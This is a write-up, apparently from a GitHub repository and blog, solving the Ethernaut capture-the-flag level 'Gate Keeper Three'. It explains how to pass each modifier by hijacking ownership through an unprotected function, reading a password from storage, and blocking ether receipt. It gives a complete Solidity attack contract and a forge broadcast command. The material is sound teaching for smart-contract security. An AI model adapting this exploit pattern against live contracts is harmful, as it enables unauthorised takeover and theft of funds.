 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/28-gate3.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 28 - Gate Keeper Three</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 28 - Gate Keeper Three](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-28-gate-keeper-three)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Gate 1](#gate-1)
  - [Gate 2](#gate-2)
  - [Gate 3](#gate-3)
- [Solution](#solution)

## Goals

<img src="../assets/requirements/28-gate3-requirements.webp" width="800px"/>

## The hack

The `GateKeeperThree`is a really simple level. Nothing complex, just to follow the flow of each modifier. So let's check those modifiers:

### Gate 1

```javascript
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

We just have to call the `construct0r()` function to become the owner of the contract. This is solidity ^0.8, constructors are defined with the `constructor` keyword. On top of that, the function lacks access control. Already seen in previous levels. Same for the `tx.origin != owner` check. So let's move on.

### Gate 2

```javascript
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

To set `allowEntrance` to `true`, we need to call the `getAllowance` function. This function needs a password. And to get the password, we need to read the storage. However, before we can do that, we need to deploy the `SimpleTrick` contract by calling the `createTrick` function. Then we can read its storage at slot `2`:

- With web3:

```javascript
await web3.eth.getStorageAt("0x...your trick address here", 2);
```

- With Foundry:

```bash
bytes32 pwd = vm.load("0x...your trick address here", bytes32(uint256(2)));
```

### Gate 3

```javascript
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
}
```

So the contract needs to have a balance greater than 0.001 ether and must be prevented from being able to send it to our `GateSkipperThree` contract. So we can either add a fallback function that always reverts, or just make sure our contract can't receive funds by omitting the `receive` and fallback functions.

And... that's it.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKeeper {
    function owner() external view returns (address);
    function entrant() external view returns (address);
    function allowEntrance() external view returns (bool);
    function trick() external view returns (address);
    function construct0r() external;
    function getAllowance(uint _password) external;
    function createTrick() external;
    function enter() external;
}

contract GateSkipperThree {
    IKeeper public immutable keeper;
    address public trick;

    constructor(address _keeper) payable {
        keeper = IKeeper(_keeper);
        keeper.createTrick();
        trick = keeper.trick();
    }

    function attack(bytes32 _password) public {
        // Gate 1: Contract become owner, thanks to the lack of access control
        keeper.construct0r();
        require(keeper.owner() == address(this), "Contract isn't owner!");

        // Gate 2: Call getAllowance to get password
        keeper.getAllowance(uint256(_password));
        require(keeper.allowEntrance(), "allowEntrance isn't true!");

        // Gate 3: Deposit to keeper but revert on receive
        (bool success, ) = address(keeper).call{value: 0.0011 ether}("");
        require(success, "Deposit failed!");

        keeper.enter();
        require(keeper.entrant() == msg.sender, "Attack failed!");
    }

    fallback() external {
        require(true == false);
    }
}
```

Then you can run the script with the following command:

```bash
forge script script/28_GateKeeperThree.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
